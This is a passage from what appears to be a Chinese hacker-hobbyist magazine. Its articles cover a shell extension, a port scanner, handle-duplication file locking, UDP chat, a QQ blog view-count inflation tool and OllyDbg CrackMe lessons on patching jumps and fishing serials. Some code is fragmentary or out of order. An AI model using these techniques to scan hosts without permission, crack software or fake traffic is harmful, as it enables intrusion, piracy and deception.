        return MAKE_HRESULT(SEVERITY_SUCCESS, FACILITY_NULL, 0);
    }

    InsertMenu(hmenu, uMenuIndex, MF_BYPOSITION, uidFirstCmd,
               _T("SimpleShlExt Test Item"));
    return MAKE_HRESULT(SEVERITY_SUCCESS, FACILITY_NULL, 1);
}
```

首先我们检查 `uFlags`。你可以在MSDN中找到所有标志的解释，但对于上下文菜单扩展而言，只有一个值是重要的：`CMF_DEFAULTONLY`。该标志告诉Shell命名空间扩展保留默认菜单项，这时我们的Shell扩展就不应该加入任何定制菜单项，这也是为什么此时我们要返回0的原因。如果该标志没有被设置，我们就可以修改菜单（使用 `hmenu` 句柄），并返回1告诉Shell我们添加了一个菜单项。

### B：在状态栏上显示提示帮助

下一个要被调用的 IContextMenu 方法是 GetCommandString()。如果用户是在浏览器窗口中右击文本文件，或选中一个文本文件后单击文件菜单时，状态栏会显示提示帮助。我们的 GetCommandString() 函数将返回一个帮助字符串供浏览器显示。

GetCommandString() 的原型是：

```cpp
HRESULT IContextMenu::GetCommandString(
    UINT idCmd, UINT uFlags,
    UINT *pwReserved, LPSTR pszName,
    UINT cchMax);
```

`idCmd` 是一个以0为起点的整数计数器，标识了哪个菜单项被选择。因为我们只有一个菜单项，所以 `idCmd` 总是0；但如果我们添加了3个菜单项，`idCmd` 可能是0、1或2。  
`uFlags` 是另一组标志。  
`pwReserved` 可以被忽略。  
`pszName` 指向一个由Shell拥有的缓冲区，我们将把帮助字符串拷贝进该缓冲区。  
`cchMax` 是该缓冲区的大小。  
返回值是 `S_OK` 或 `E_FAIL`。  
GetCommandString() 也可以被调用以获取菜单项的动作（“verb”）。“verb”是个语言无关性字符串，它标识一个可以加于文…ShellExecute() 的文档中有详细的解释，而有关 verb 的内容足以再写一篇文章。简单的解释是：verb 可以直接列在注册表中（如 `open` 和 `print` 等字符串），也可以由上下文菜单扩展创建。这就可以通过调用 ShellExecute() 执行实现在 Shell 扩展中的代码……如果 `uFlags` 设置了 `GCS_HELPTEXT` 位，则 Explorer 是在要求帮助字符串；如果 `GCS_UNICODE` 被设置，我们就必须返回一个 Unicode 字符串。

我们的 GetCommandString() 如下：

```cpp
#include "atlconv.h"
// 为使用 ATL 字符串转换宏而包含的头文件

HRESULT CSimpleShlExt::GetCommandString(
    UINT idCmd, UINT uFlags, UINT* pwReserved, LPSTR pszName, UINT cchMax )
{
    USES_CONVERSION;
    // 检查 idCmd，它必须是 0，因为我们仅有一个添加的菜单项
    if (0 != idCmd)
        return E_INVALIDARG;

    // 如果 Explorer 要求帮助字符串，就将它拷贝到提供的缓冲区中
    if (uFlags & GCS_HELPTEXT)
    {
        LPCSTR szText = _T("This is the simple shell extension's help");
        if (uFlags & GCS_UNICODE)
        {
            // 转换为 Unicode 并拷贝
            lstrcpynW((LPWSTR)pszName, T2CW(szText), cchMax);
        }
        else
        {
            // 使用 ANSI 拷贝 API 返回帮助字符串
            lstrcpynA(pszName, T2CA(szText), cchMax);
        }
    }
}
```

这里没有什么特别的代码；代码中使用了硬编码字符串并把它转换为相应字符集。使用了 `T2CW` 和 `T2CA` 将 `TCHAR` 字符串分别转化为 Unicode 和 ANSI 字符串。函数开头处的 `USES_CONVERSION` 宏声明了转换宏所使用的局部变量。需要注意 `lstrcpyn()` 会保证目标字符串以 `null` 结尾，这与 CRT 的 `strncpy()` 不同。

### C：执行用户的选择

`IContextMenu` 接口的最后一个方法是 `InvokeCommand()`。当用户点击我们添加的菜单项时该方法将被调用。其函数原型是：

```cpp
HRESULT IContextMenu::InvokeCommand(LPCMINVOKECOMMANDINFO pCmdInfo);
```

`CMINVOKECOMMANDINFO` 结构带有大量信息，但这里只关心 `lpVerb` 和 `hwnd`。`lpVerb` 可以是可被激发的 verb（动作）名，也可以是被点击菜单项的索引值。由于这里只有一个扩展菜单项，只需检查 `lpVerb` 是否为 0，即可判断该菜单项被点击。

最简单的代码是弹出一个信息框，显示所选文件名以验证代码正确工作。

```cpp
HRESULT CSimpleShlExt::InvokeCommand(LPCMINVOKECOMMANDINFO pCmdInfo)
{
    // 如果 lpVerb 实际指向一个字符串，忽略此次调用并退出
    if (0 != HIWORD(pCmdInfo->lpVerb))
        return E_INVALIDARG;

    // 点击的命令索引——这里只有合法索引 0
    ...
}
```

```cpp
switch (LOWORD(pCmdInfo->lpVerb))
{
  case 0:
  {
    TCHAR szMsg[MAX_PATH * 32];
    wsprintf(szMsg, _T("The selected file was:\n\n%s"), m_szFile);
    MessageBox(pCmdInfo->hwnd, szMsg, _T("SimpleShlExt"), MB_ICONINFORMATION);
    return S_OK;
  }
  break;
  default:
    return E_INVALIDARG;
  break;
}
```

我们不必写任何代码就可以完成注册操作，如果你看一下 FileView 页的文件列表，你会看到 SimpleShlExt.rgs。

该文本文件将被 ATL 分析，并指导 ATL 在该 COM 服务器注册时添加附加的注册键，而注销时又删除哪些键，以下是所指定添加的注册表项：

```reg
HKCR
{
  NoRemove txtfile
  {
    NoRemove Shellex
    {
      NoRemove ContextMenuHandlers
      {
        ForceRemove SimpleShlExt = s '{5E2121EE-0300-11D4-8D3B-444553540000}'
      }
    }
  }
}
```

### D：注册 Shell 扩展

现在我们已经实现了所有需要的 COM 接口，可是我们怎样才能让 Explorer 使用我们的扩展呢？ATL 自动生成注册 COM DLL 服务器的代码，但这只是让其它程序可以使用我们的 DLL。为了告诉 Explorer 使用我们的扩展，我们需要在文本文件类型的注册表键下注册扩展：

```text
HKEY_CLASSES_ROOT\txtfile
```

在这个键下，有个名为 ShellEx 的键保存了一个与文本文件关联的 Shell 扩展的列表。在 ShellEx 键下，ContextMenuHandlers 键保存了上下文菜单扩展的列表。每个扩展都在 ContextMenuHandlers 下创建了一个子键并将其默认值设为扩展 COM 的 GUID。所以，对于我们这个简单的扩展，我们将创建下键：

```text
HKEY_CLASSES_ROOT\txtfile\Shellex\ContextMenuHandlers\SimpleShlExt
```

并将其默认值设为我们的 GUID：`"{5E2121EE-0300-11D4-8D3B-444553540000}"`。

每一行代表一个注册表键，“HKCR”是 HKEY_CLASSES_ROOT 的缩写，NoRemove 关键字表示当该 COM 服务器注销时该键不用被删除。最后一行有些复杂，ForceRemove 关键字表示如果该键已存在，那么在新键添加之前该键先应被删除。这行脚本的余下部分指定一个字符串，它将被存为 SimpleShlExt 键的默认值。


### E：调试 Shell 扩展

打开你的工程设置，在 Debug 页“Executable for debug session”编辑框中输入浏览器程序的全路径，如：`"C:\windows\explorer.exe"`。只要你在这个窗口内完成你所有的工作，当你关闭该窗口时扩展同时会被卸出内存，这样就不会妨碍我们重建 DLL 了。如图1所示我们的执行结果。

## 打造自己的黑色工具

## 黑客编程


图1

详细的代码组织流程，请读者自行参考附带的源代码。工具上实现了以下几个功能：ping 主机功能、端口扫描功能。如图1所示。

首先我们先介绍 ping 功能的实现，这里需要大家了解一个类：CPing。这个类就是用来实现 ping 功能的类，这个类中定义了一些成员函数以及变量：

```cpp
void SetConfigure(char *host,int size=32,int Num=4);
void DecodeIPOptions(char *buf, int bytes);
void Cleanup();
void Ping(int timeout=1000);
void DecodeICMPHeader(char *buf, int bytes, SOCKADDR_IN* from);
USHORT checksum(USHORT *buffer, int size);
void FillICMPData(char *icmp_data, int datasize);

变量: char msg[4096];
```

我们只需要使用到的是 SetConfigure 与 Ping 这两个函数，`char msg[4096]` 这个变量。SetConfigure 用于设置 ping 数据包的模式，Ping 用于发包。其中的参数 host 表示要 ping 的 IP 地址，其他两个参数保持默认即可。我们使用 `char msg[4096]` 这个变量来获得 ping 返回的结果，ping 功能实现的代码如下：

```cpp
CPing ping;
ping.SetConfigure(m_ip.GetBuffer(0),32,4);
ping.Ping(1000);
```

“黑客”，一旦到了底层上的原理性东西就什么也不知道了，所以还是建议大家去学一种编程，而且最好是 VC。

由于本篇文章还是编程实现工具，所以还是只介绍关键的函数以及核心代码，对于其他部分请读者参考源代码。

```cpp
CString str;
str.Format("%s",ping.msg);
m_show+=str;
```

下面来完成端口扫描。端口扫描的实现我们采用多线程的机制，这样可以提高扫描的速度。扫描的方式我们采用连接测试，如果连接成功，表示端口开放；如果连接失败，表示端口关闭。这里涉及到一个函数 select 需要大家了解：

```cpp
int select(
    int nfds,
    fd_set FAR *readfds,
    fd_set FAR *writefds,
    fd_set FAR *exceptfds,
    const struct timeval FAR *timeout
);
```

这个函数用于确定一个或者多个 socket 的状态。扫描部分的代码如下：

```cpp
dlg->SetDlgItemInt(IDC_SHOWPORT,nPort,TRUE);
FD_SET mask;
u_long value;
SOCKET sockfd;
TIMEVAL timeout;
SOCKADDR_IN addr;

sockfd = socket(AF_INET, SOCK_STREAM, 0);
value=1;
ioctlsocket(sockfd,FIONBIO,&value);
addr.sin_family = AF_INET;
addr.sin_port = htons(nPort);
addr.sin_addr.s_addr = inet_addr(ip);
connect(sockfd,(struct sockaddr *)&addr,sizeof(addr));

timeout.tv_sec=2;
timeout.tv_usec=0;
FD_ZERO(&mask);
FD_SET(sockfd,&mask);
value=select(sockfd+1,NULL,&mask,NULL,&timeout);
```

```cpp
...if(value && value!=SOCKET_ERROR){
    char result[50];
    wsprintf(result, "Found:%14s->%-5d", ...);
    dlg->m_show += result;
    dlg->SetDlgItemText(..., dlg->m_show);
}
```

```cpp
}
closesocket(sockfd); // 注意，一定不要忘记关闭socket
```

这个扫描工具的实现非常简单，为了实现其他程序的可移植性，这里面的类以及函数已经基本实现了完整功能，所以读者可以将部分代码移植到自己的程序中实现扩展。这里笔者使用的是双线程，为了得到更高的扫描速度，读者可以尝试使用更高的线程数量来实现并发扫描。

> （文章中涉及的源代码本期光盘已收录）

## 基于句柄复制的文件保护技术

沧海浮萍

句柄复制技术，相信很多人对这个概念还会比较陌生，究竟什么是句柄复制呢？我们可以简单地理解为“将某个文件的句柄复制到一个进程里”，这里我们可以将一个没有运行或打开的文件为它复制一个句柄，从而实现文件被占用无法删除的目的。当然我们也可以这样思考，“将已经打开的文件或程序的句柄删除掉”，这样就实现了文件可以删除，达到了解锁的目的。现实中很多病毒或者是杀毒软件使用这样的技术来达到保护病毒自身或者删除恶意文件的作用。本篇文章中，笔者将介绍怎么通过编程的方法来实现这些技术。

由于本文会涉及到一些比较高级的 C++ 编程，所以考虑大多数读者的编程基础，笔者这里只进行关键代码的介绍与实现，更加详细的代码请读者参考附带的源代码。这个软件我们采用 C++ 控制台模式，首先先介绍一下关于 `main(int argc, char *argv[])` 这个函数的一些问题。`main()` 函数是控制台程序的主函数入口，由于控制台程序可以接受参数，所以这里我们介绍一下它的参数含义。`argc` 表示传递给控制台程序的参数个数，`argv[]` 是指向参数的字符串指针数组。这个字符串必须是以 `0` 结束的字符串，第一个参数（`argv[0]`）表示程序的名称，一般情况下我们不关心，从 `argv[1]` 开始才是真正的参数。由于涉及到进程的问题，所以我们对一些重要的函数进行一下简单介绍。

```cpp
BOOL OpenProcessToken(
    HANDLE ProcessHandle,
    DWORD DesiredAccess,
    PHANDLE TokenHandle
);
```

函数描述：获得进程访问令牌的句柄。

```cpp
BOOL LookupPrivilegeValue(
    LPCTSTR lpSystemName,
    LPCTSTR lpName,
    PLUID lpLuid
);
```

函数描述：该函数将特权名字转换成一个 64 位的等价数值，叫做 LUID。

```cpp
BOOL AdjustTokenPrivileges(
    HANDLE TokenHandle,
    BOOL DisableAllPrivileges,
    PTOKEN_PRIVILEGES NewState,
    DWORD BufferLength,
    PTOKEN_PRIVILEGES PreviousState,
    PDWORD ReturnLength
);
```

```cpp
EnablePrivilege(
    LPCTSTR lpszPrivilegeName,
    BOOL bEnable);
```

函数描述：提升进程权限；启用或禁用特权——一个有 `TOKEN_ADJUST_PRIVILEGES` 访问权限的访问令牌。

```cpp
NtQuerySystemInformation(ZwQuerySystemInformation);
```

函数描述：枚举进程信息。

```cpp
GetCurrentProcessId();
```

函数描述：获取当前进程一个唯一的标识符。

```cpp
TerminateThread(HANDLE hThread, DWORD dwExitCode);
```

函数描述：在线程外终止一个线程，用于强制终止线程。

```cpp
HANDLE WINAPI CreateToolhelp32Snapshot(
    DWORD dwFlags,
    DWORD th32ProcessID
);
```

函数描述：为指定的进程、进程使用的堆（HEAP）、模块（MODULE）、线程（THREAD）建立一个快照（snapshot）。

```cpp
Process32Next(
    __in HANDLE hSnapshot,
    __out LPPROCESSENTRY32 lppe
);
```

函数描述：是一个进程获取函数，当我们利用函数 `CreateToolhelp32Snapshot()` 获得当前运行进程的快照后，我们可以利用 `Process32Next` 函数来获得下一个进程的句柄。

```cpp
DuplicateHandle(
    __in HANDLE hSourceProcessHandle,
    __in HANDLE hSourceHandle,
    __in HANDLE hTargetProcessHandle,
    __out LPHANDLE lpTargetHandle,
    __in DWORD dwDesiredAccess,
    __in BOOL bInheritHandle,
    __in DWORD dwOptions
);
```

在指出一个现有系统对象当前句柄的情况下，为那个对象创建一个新句柄。当前句柄可能位于一个不同的进程。

主要的函数我们介绍完了，我们核心代码的实现就是基于上面的函数来完成的。说得简单一些就是函数的拼接。由于大部分是代码的介绍，所以建议读者自行参考源代码，文章中就不详细介绍了。下面主要介绍一下编译完毕后程序的用法，用法的实例在源程序中已经给出了，程序运行后也可以看到，如图1所示。这里用第四个例子介绍一下文件的保护。对于一个没有在使用的文件，我们可以采用我们刚才编译的程序将其保护起来，具体的操作方式如下：打开 cmd 后来到我们程序所在的目录，输入：`程序名 /参数 pid 被保护文件名`。这里我在 C 盘下放置了一个名字为“1.txt”的文件来做实验。我把这个句柄复制到我当前正在运行的一个 IE 进程里面，进程的 PID 通过任务管理器可以看到是 2268，所以这里输入的参数就是：`clshp /p 2268 c:\1.txt`。输入后按回车，如果保护成功的话会有提示“复制成功”，如图2所示。下面我们来打开这个文件看一下有什么反应，如图3所示，它会提示“有一个程序正在使用”，当然我们也没法删除这个文件。


图1


图2


图3

这个程序中实现了保护文件和解除使用的函数方法，这些方法都是在病毒文件中使用或者是在杀软中使用，大家可以将这些函数移植到自己的程序中另行发挥。

## 突破UDP通信

沧海浮萍

在做各类黑客程序，包括木马、扫描工具以及我们经常使用的各类渗透测试工具的过程中，无一不涉及到网络编程。熟悉网络编程不仅对于我们进行程序开发十分重要，而且可以让我们更加熟悉这些黑客类工具的原理，有利于我们从本质上了解这些原理。本篇文章中，笔者将为大家介绍网络通信中的UDP通信的编程过程以及方法，实现一款点对点聊天工具。

开发平台VC6.0，采用Win32控制台编程。首先我们编写一个名为CComm的类，将用到的网络函数放到一起。在进行各种操作之前，我们首先要包含网络通信的头文件winsock.h以及lib静态库文件wsock32.lib。lib文件的包含代码为：`#pragma comment(lib, "wsock32.lib")`。在头文件中我们声明3个函数：`ListenThread(void *data)`，用于创建监听数据的线程；`SendMsg(char *Msg, int Len, char *host, short port)`，用于发送数据的函数；`Listen(int PortNum)`，用于监听端口。同时创建一个SOCKET对象ListenSocket用于监听数据是否到来。

```cpp
if (ListenSocket != INVALID_SOCKET)
    closesocket(ListenSocket);

#ifdef _WIN32
    WSACleanup();
#endif
```

下面开始数据发送、数据监听与监听线程的实现。数据发送的关键代码实现如下：

```cpp
sockaddr_in dest; // 发送目标地址

dest.sin_family = PF_INET;
dest.sin_addr = *((in_addr *)hostdata->h_addr_list[0]);
dest.sin_port = htons(port);
printf("信息已经被发送到主机 %s 端口为 %i\n", inet_ntoa(dest.sin_addr), ntohs(dest.sin_port));

// 数据发送
Sent = sendto(ListenSocket, Msg, len, 0, (sockaddr *)&dest, sizeof(sockaddr_in));

if (Sent != Len)
{
    printf("错误发送UDP信息\n");
    fflush(0);
    return false;
}
```

下面开始实现这个类。对于类来说应该首先完成构造函数以及析构函数，构造函数用于完成数据的初始化，析构函数用于实现资源的释放。我们首先将ListenSocket设置为INVALID_SOCKET的初始化值，然后初始化网络通信，代码如下：

```cpp
WORD VersionRequested = MAKEWORD(1,1);
WSADATA wsaData;

WSAStartup(VersionRequested, &wsaData);
// 启动winsock服务
if (wsaData.wVersion != VersionRequested)
{
    printf("Wrong version or WinSock not loaded\n");
}
```

其中MAKEWORD用于指定网络通信的版本，WSAStartup用于初始化网络通信。构造函数完成后我们就需要实现析构函数，这里析构函数的主要作用就是关闭网络连接，同时释放所使用的网络资源，代码如下：

数据监听函数的关键代码如下：

```cpp
char buf[4096];
CComm *Comm = (CComm *)data;
int len = sizeof(Comm->client);
while(1) // 一直循环
{
    // 接收数据
    int result = recvfrom(Comm->ListenSocket, buf, sizeof(buf)-1, 0, (sockaddr*)&Comm->client, (socklen_t*)&len);
    if (result > 0)
    {
        buf[result] = 0;
        printf("收到来自主机 %s port %i\n", inet_ntoa(Comm->client.sin_addr), ntohs(Comm->client.sin_port));
        printf(">> %s", buf);
        fflush(0);
    }
}
```

```cpp
printf("端口 %s 绑定失败\n", listeningport);
return 0;
}
printf("聊天程序成功建立，端口为3000，<Ctrl-C> 退出\n");
while (fgets(buffer, sizeof(buffer), stdin))
{
    myComm.SendMsg(buffer, strlen(buffer), desthost, destport); // 发送数据到目标地址
}
```

监听线程的代码读者自行参考源代码，下面我们就需要在main函数中将这些函数代码组织起来使用，来实现数据通信。首先我们确定一下程序监听使用的端口号以及发送数据使用的端口号，这里就是用3001和3000两个端口，由于笔者是在本地测试，所以IP地址设置为127.0.0.1，代码组织如下：

这是其中的一个通信端，另一个通信端只需要将两个端口号互换即可。这样一个简单的UDP通信程序就完成了，下面来测试一下，我们这里不区分客户端与服务器端，是对等的通信模式，测试结果如图1所示。

```cpp
listeningport=3001;
// 设定发送端口
destport=3000;
desthost="127.0.0.1"; // 设定目标地址
CComm myComm;
if (!myComm.Listen(listeningport)) // 绑定地址
{ ... }
```


图1

> 【文章中涉及的软件及源代码本期光盘已收录】

## 易语言打造不用签字的极速刷日志访问量工具

雪芳文

翻阅以前的《黑客X档案》的时候看到一篇易语言编写刷QQ空间日志访问量的工具的文章，觉得写得非常好，但是好像操作起来有点小复杂，还得登录什么的。作为菜菜，我们要寻找的不只是精湛的技术，还有便捷的技术。于是到网上查找了一些实例，想了许久，也用易语言写好了一个源码，按捺不住激动的心情就来给大家共享来了。

### 一、工具使用

我们先来看看这个源码编译出来的工具好不好用吧（为了大家使用方便，编译好的工具我会打包给X友们）。双击打开工具，会看到如图1的界面。我在空间里随便找到了一篇日志作为示范，如图2。我们可以“不小心”地看到现在的访问量是47。在工具上输入QQ，点确定，文本框上就会显示出空间上已有的日志了，选择要刷的日志，最后点“开刷”。工具就可以工作了，现在你爱干嘛就干嘛去，等你觉得可以了点下“停止”，再去空间就可以看到日志访问量飙飙地就上去了，如图3。

在查看源码之前得先去载个易语言（当然，原来机子上有的就不用了）。我这里把部分源码写在文章上，如图4、图5。看完这部分的源码菜菜们应该都能理解工具的原理了吧。（小菜吼道：废话，都是中文的）它就是不停地访问我们的日志，以增加大家的日志访问量的。


图1


图2


图3

这个工具1s基本就会刷1个访问量，非常快。所以大家刷的时候注意别刷太高了，不然一看就知道是刷的了。


图4

| 字段序号 | 返回值类型 | 公开 | 备注 |
|---|---|---|---|
| 取指定内容 | 文本型 |  | 取U值数据内容 |
| 参数名 | 类型 | 参考 |  |
| 完整内容 | 文本型 |  |  |
| 左边文本 | 文本型 |  |  |
| 右边文本 | 文本型 |  |  |

（下方含字段说明与示例代码注释）

图5

### 二、工具原理

源码我也会给大家的，因为是易语言的，所以菜菜们好！

好了文章结束，祝X友们越玩越快乐，技术越来越好！

## 破解登录验证（二） 初试调试

12月这么快就过去了，2011年到了，又是1月，对rejector老师来说又是讨厌的期末考试。好不容易抽空睡睡懒觉，就看到白糖发短信过来“rejector老师，上课了！”rejector突然想起这个月的课还没上呢，只好无奈地穿好衣服。

会发生的，程序员们在设计程序的时候，为了防止他们设计的程序被破解，就刻意地把一些字符串做了加密，每当这个字符串要被使用到的时候，在程序运行阶段随时调用解密函数对它进行解密。白糖：老师，那我们要怎么办呢？rejector：道高一尺，魔高一丈，虽然字符串被加密了，那我们还有更高级的方法来对付他们！

来到教室，rejector还是很郁闷：“上个月带大家认识了静态反汇编，这个月就再讲进一步让大家认识什么叫做动态调试。”

我们运行本课的教学程序CrackMe，我们可以看到它需要被输入“user”和“serial”（如图1），随意输入后按“OK”（如图2），它会弹出一个对话框提示我们“串错误，破解失败”。白糖：老师！有字符串了！rejector：到这里大家肯定会想到上节课我们讲过的字符串破解，那我们就先来回顾一下上节课的内容吧！


运行OD，点“开始”--“打开”来加载我们的CrackMe，然后再点击菜单栏的“插件”--“Ultra String Reference”--“1. Find ASCII”（如图3），接着OD就会弹出字符串窗口（如图4）。吉利：诶？怎么没有“串错误，破解失败”字符串呢？白糖：应该是在Unicode里边吧！rejector：那我们就看看看到底是不是在Unicode里边！

我们继续点击菜单栏的“插件”--“Ultra String Reference”--“1. Find Unicode”（如图5），白糖：为什么还是没有呢？rejector：同学们不要急，这种情况是经常发生的。


现在就进入我们今天的主题。动态调试技术在软件逆向工程领域是一个很热门的概念，它是与静态分析技术相对而言的。静态分析技术是指破解者利用反汇编工具将二进制的可执行文件翻译成汇编代码，通过对代码的分析来破解软件；而动态调试则是指破解者利用调试器跟踪软件的运行，寻求破解的途径。

好的，我们回到刚开始，用OD加载我们的CrackMe，接下来，注意喽，我们按F9让程序在OD中运行起来（如图6），我们可以看到，OD左上角的状态已经变成“运行”了，我们刚才试过，当我们输入一个错误的User和Serial时程序会弹出一个对话框来提示我们“串错误，破解失败”，其实这个时候，程序是调用了一个API函数来弹出一个窗口，完成这个过程的，那么它到底会用到哪些API函数呢？


在这里我们列举一下可能用到的API函数：

- MessageBox —— 显示一信息对话框
- MessageBoxEx —— 显示一信息对话框
- MessageBoxIndirect —— 显示一定制信息对话框

其实在我们的系统内部，每个跟字符的处理有关的API函数都有A和W两个版本的，像MessageBox函数一样，真正被调用到的函数其实是MessageBoxA或者MessageBoxW。那它们有什么区别呢？A版的API函数使用多字节字符，W版API函数使用宽字节字符。宽字节字符和多字节字符的区别就在于宽字节字符所占用的字节数是一样的，它不管是中文字符还是英文字符都使用两个字节来储存；而多字节字符占用的字节数目不同，它使用两个字节来储存一个中文字符，使用一个字节来储存一个英文字符，这就是为什么我们上节课在查找字符串时有两个选项的原因了。

白糖：那知道了这些我们要怎么来利用它们呢？rejector：我们可以看到OD的左下方有command的输入框（如图7），这是OD的命令插件，我们在这里输入命令“BP MessageBoxA”后按回车（如图8）。白糖：老师，那这个命令是什么意思呢？rejector：这个命令呢，它会在MessageBoxA函数的入口点处设下一个断点，当程序运行到断点处的时候，就会被中断，OD就会停在这里，我们就可以来具体分析调用这个函数位置处的代码了。


下好断点以后，继续翻开我们的CrackMe，随便输入User和Serial后，再按“OK”，我们会看到OD的状态又变成了暂停（如图9）。


我们看OD右下角的堆栈窗口，可以看到OD的确是被中断在了MessageBoxA函数的入口点处（如图10）。


我们接着来看OD的标题栏（如图11），OD正处于User32模块，这是系统领空，我们需要让它返回程序自己的领空后才可以继续进行调试。我们按Alt + F9就可以让OD返回到用户代码了，这时，我们看见那个“串错误，破解失败”对话框又弹出了（如图12）。


我们点确定后，OD再次被中断，如图13。


但这次的模块已经是程序自己的模块了，我们可以看到有如下代码：

```asm
004010D9    5F              pop edi
0012FAE8
004010DA    B8 01000000     mov eax,1
004010DF    5E              pop esi
004010E0    C2 1000         retn 10
```

我们往上一点点，看这里的代码：

```asm
004010CE    83C4 04         add esp,4
004010D1    50              push eax
004010D2    56              push esi
004010D3    FF15 A4504000   call dword ptr [<&USER32.MessageBoxA>]
```

我们看到004010D3的地方调用了MessageBoxA函数……这句话上边应该会有一个关键跳转，也就是我们常说的爆点。我们来看这里的完整代码：

```asm
0040109D    83C4 08         add esp,8
004010A0    84C0            test al,al
004010A2    6A 00           push 0
004010A4    68 50604000     push 00406050
004010A9    74 10           je short 004010BB
004010AB    E8 60000000     call 00401110
004010B0    83C4 04         add esp,4
004010B3    50              push eax
004010B4    68 44604000     push 00406044
004010B9    EB 0E           jmp short 004010C9
004010BB    E8 50000000     call 00401110
004010C0    83C4 04         add esp,4
004010D2    56              push esi
004010D3    FF15 A4504000   call dword ptr [<&USER32.MessageBoxA>]
004010D9    5F              pop edi
004010DA    B8 01000000     mov eax,1
004010DF    5E              pop esi
004010E0    C2 1000         retn 10
```

白糖：老师，004010C9、004010BB、004010AB都调用了00401110处的同一个函数，这个函数是什么呀？

rejector：我们可以看到这三句的上一句都是一句push，压入的是我们不认识的一些字符，所以我们大胆地猜测它就是给字符串解密的函数！……把这一句改为jne（如图14）。


图14

然后点击右键“复制到可执行文件”--“所有修改”，在弹出的对话中再点击右键“保存文件”，就可以把我们修改过的程序保存下来……它已经提示我们“破解成功”了。


图14

rejector：OK！下课的时间到了。经过这堂课，我想同学们应该理解了初试调试的大致流程了。回家了不要忘记复习啊。我们下节课见。

（文章中所涉及到的Crack已收录在光盘中）

## 破解验证码（三） 追码

又一个月过去了，rejector老师也回家过年了，但是过年归过年，他总不能不来给小菜们上课呀。这天，rejector正躺在床上享受着阳光的肆意挥洒，就在这时，“叮铃铃，叮铃铃”，rejector看了看手机。唉，又是这个死白帽……

rejector：上个月带大家认识了OD的动态调试功能，这节课教教大家它到底有多大的用处，今天就教大家来利用调试来追出软件的注册码。  
白糖：老师，为什么可以直接追出软件的注册码呢？  
吉利：对呀，这个是什么原理呢？  
rejector：其实呢，当我们输入注册码后，软件就会计算出其真正正确的注册码和我们输入的注册码进行比较。如果我们输入的注册码与软件计算得出的注册码相同的话，我们就通过注册验证了；如果不相同的话则注册失败。在这期间，软件计算得出的注册码肯定会出现在内存中，这时候我们就可以直接从内存中找出软件真正的注册码。

上节课教了大家给MessageBox函数下一个断点，但是如果程序在注册的时候没有弹出对话框怎么办呢？

先来看看本节课的CrackMe吧（如图1），我们随手输入一对User和Serial后点OK就会发现，程序并没有弹出一个对话框来提示我们，而是直接在窗体上显示了一串文字“破解失败”（如图2）。  
白糖：呃，那没有对话框我们要怎么来破解它呢？  
吉利：白糖，你总是这么笨，老师会教我们的嘛。

好的，在破解之前我们先来认识一下GetDlgItemText函数。程序调用GetDlgItemText函数用来获得与对话框中的控件相关的标题或文本。我们来看看MSDN上给出的解释。

```c
UINT GetDlgItemText(HWND hDlg, int nIDDlgItem, LPTSTR lpString, int nMaxCount)
```

hDlg：指向含有控件的对话框句柄。  
nIDDlgItem：指定标题或文本将被检索的控件标识符。  
lpString：指向获取标题或文本的缓冲器指针。  
nMaxCount：指定被复制到lpString参数指向的缓冲区的字符串最大长度。如果字符串长度超过范围，则该字符串被截断。

返回值：如果函数调用成功，则返回值表示被复制到缓冲区的字符串长度，不包括以NULL结尾的字符串；如果函数调用失败，则返回值为零。

函数执行以后，程序会将指定控件中的文本拷贝到lpStr指针所指向的位置并返回拷贝的字节数。还记得我们上节课说过的关于字符串处理的API函数都有A和W两个版本，A版使用多字节字符，W版使用宽字节字符。

当我们在输入User和Serial后按OK时，程序就会调用GetDlgItemText函数来获取我们输入到编辑框控件中的文本，而我们要做的就是在这时中断程序。好的，知道了这么多，来操作一把！


打开OD，加载想要破解的CrackMe，现在需要对GetDlgItemText函数下一个断点。我们在CPU窗口中按Ctrl+G，会弹出（如图3）所示的对话框，输入GetDlgItemTextA后按确定，就会跳到GetDlgItemTextA函数的代码处，按F2来给这一句下断点（如图4）。因为我们不知道程序到底是要调用GetDlgItemTextA函数还是GetDlgItemTextW函数，所以还需要使用同样的步骤，再给GetDlgItemTextW函数下一个断点（如图5）。下完断点以后，按F9让CrackMe在OD中运行起来，随手输入User和Serial后按确定，OD就会把CrackMe中断在刚才我们下断的地址（如图6）。


图4


图5


图6

看着这时的堆栈：

```asm
0012FA64  00401060   /CALL 到 GetDlgItemTextA 来自 Crack.0040105E
0012FA68  00150202   |hWnd = 00150202 ('CrackMe 黑客X档案菜鸟学堂专用...', class='#32770')
0012FA6C  000003E8   |ControlID = 3E8 (1000.)
0012FA70  0040B120   |Buffer = Crack.0040B120
0012FA74  00000064   \Count = 64 (100.)
```

我们可以看到程序被中断在了GetDlgItemTextA函数。它被获取的窗体句柄为0x00150202，控件ID为0x3E8，缓冲区指针为0x0040B120，能获取的最大字节数为0x64。好的，现在我们再按Ctrl+F9让OD执行到函数返回（如图7），往上看，会看到00401044处是这一段代码开始的地方。


图7

我们看这里的代码：

```asm
00401051  6A 64         push 64
; Count = 64 (100.)
00401053  68 20B14000   push 0040B120
; Buffer = Crack.0040B120
00401058  68 E8030000   push 3E8
; ControlID = 3E8 (1000.)
0040105D  57            push edi
; hWnd
0040105E  FFD6          call esi
; GetDlgItemTextA
00401060  6A 64         push 64
; Count = 64 (100.)
00401062  68 20AD4000   push 0040AD20
; Buffer = Crack.0040AD20
00401067  68 E9030000   push 3E9
; ControlID = 3E9 (1001.)
0040106C  57            push edi
; hWnd
0040106D  FFD6          call esi
; GetDlgItemTextA
```

这里两次调用了GetDlgItemTextA函数，毫无疑问，这里就是用来获取User和Serial的。注意它的缓冲区指针分别是0x0040B120和0x0040AD20，继续看下面的代码：

```asm
0040106F  68 20B14000   push 0040B120
; ASCII "monster"
00401074  BE 20AD4000   mov esi,0040AD20
0040AD20 ; ASCII "389264167"
00401079  E8 A2000000   call 00401120
```

```asm
004010A5 ; 是零则跳走
0040108F  8A50 01    mov dl, byte ptr [eax+1] ; 获取字符串1的第2字节
00401092  8A5E 01    mov bl, byte ptr [esi+1] ; 获取字符串2的第2字节
00401095  8ACA       mov cl, dl
00401097  3AD3       cmp dl, bl
00401099  75 0E      jnz short 004010A9 ; 不相等则跳走
0040109B  83C0 02    add eax, 2
0040109E  83C6 02    add esi, 2
004010A1  84C9       test cl, cl
004010A3  75 DC      jnz short 00401081 ; 不是零则返回继续循环
```


图8

